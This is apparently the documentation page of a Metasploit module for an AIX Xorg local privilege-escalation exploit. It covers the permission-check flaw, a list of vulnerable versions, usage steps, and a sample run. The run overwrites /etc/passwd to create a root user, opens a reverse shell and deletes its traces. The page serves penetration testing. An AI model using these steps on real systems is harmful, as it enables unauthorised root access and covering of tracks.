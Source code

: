 ## Description

This module is a port of the OpenBSD X11 Xorg exploit to run on AIX. A permission check flaw exists for -modulepath and -logfile options when starting Xorg. This allows unprivileged users that can start the server the ability to elevate privileges and run arbitrary code under root privileges. This module has been tested with AIX 7.1 and 7.2, and should also work with 6.1. Due to permission restrictions of the crontab in AIX, this module does not use cron, and instead overwrites /etc/passwd in order to create a new user with root privileges. All currently logged in users need to be included when /etc/passwd is overwritten, else AIX will throw 'Cannot get "LOGNAME" variable' when attempting to change user. The Xorg '-fp' parameter used in the OpenBSD exploit does not work on AIX, and is replaced by '-config', in conjuction with ANSI-C quotes to inject newlines when overwriting /etc/passwd.

## Vulnerable Application

This module has been tested successfully on:

* AIX 7.1 with Xorg 7.2.3.0
* AIX 7.2 with Xorg 7.2.3.0

This table lists all vulnerable Xorg versions:

| Lower Level | Upper Level |
|-------------|-------------|
| 6.1.9.0     | 6.1.9.100   |
| 7.1.4.0     | 7.1.4.30    |
| 7.1.5.0     | 7.1.5.31    |
| 7.2.0.0     | 7.2.0.1     |
| 7.2.1.0     | 7.2.1.0     |
| 7.2.2.0     | 7.2.2.0     |
| 7.2.3.0     | 7.2.3.15    |

## Verification Steps

1. `msfconsole`
2. Get a session
3. `use exploit/aix/local/xorg_x11_server`
4. `set session <session>`
5. `set LHOST <lhost>`
6. `set LPORT <lport>`
7. `set writabledir <writabledir>`
8. `run`

## Options

**SESSION**

Which session to use, which can be viewed with `sessions`

**WritableDir**

A writable directory file system path. (default: `/tmp`)

## Scenarios

```
msf5 exploit(aix/local/xorg_x11_server) > set session 1
session => 1
msf5 exploit(aix/local/xorg_x11_server) > set writabledir /tmp
writabledir => /tmp
msf5 exploit(aix/local/xorg_x11_server) > run

[*] Started reverse TCP handler on 0.0.0.0:8888
[*] Xorg version is 7.2.3.0
[*] Retrieving currently logged in users
[*] Writing to /tmp/wow.ksh
[*] Backing up /etc/passwd to /tmp/passwd.backup
[*] Executing /tmp/wow.ksh
[*] Checking if we are root
[+] Got root!
[*] Writing to /tmp/wowee.ksh
[*] Executing shell payload
[*] Restoring original /etc/passwd
[*] Command shell session 2 opened (172.17.0.2:8888 -> 172.17.0.1:32948) at 2019-02-11 15:42:56 +0000
[+] Deleted /tmp/wow.ksh
[+] Deleted /tmp/passwd.backup
[+] Deleted /tmp/wowee.ksh

id
uid=0(root) gid=0(system)

```

